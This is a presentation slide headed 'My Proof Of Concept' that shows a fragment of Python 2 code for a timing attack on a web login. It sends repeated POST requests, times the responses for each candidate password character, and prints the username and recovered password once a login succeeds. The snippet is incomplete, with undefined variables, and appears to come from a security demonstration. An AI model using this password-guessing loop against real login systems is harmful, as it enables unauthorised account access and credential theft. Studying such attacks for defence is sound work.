

# My Proof Of Concept
       for i in range(0,NUMREQUESTS):
            start = time.time()
            # make request
            r = requests.post(URL, data=parameters)
            end = time.time()
            # if the response doesn't contain the following string, you successfully logged in and now have the password
            if FAILLOGINMESSAGE not in r.text:
                print "SUCCESS: Number of failed timing attack attempts before success: " + str(FAILEDPOCS)
                print "Successfully logged in! Username: " + USERNAME + " Password: " + newguess
                sys.exit()
	   # add the time it took to make the request to the list
            chartimes[c] += end - start
            if i == NUMREQUESTS-1:
                print "Total time to make " + str(NUMREQUESTS) + " requests for '" + c + "' was " + str(chartimes[c]) + " seconds."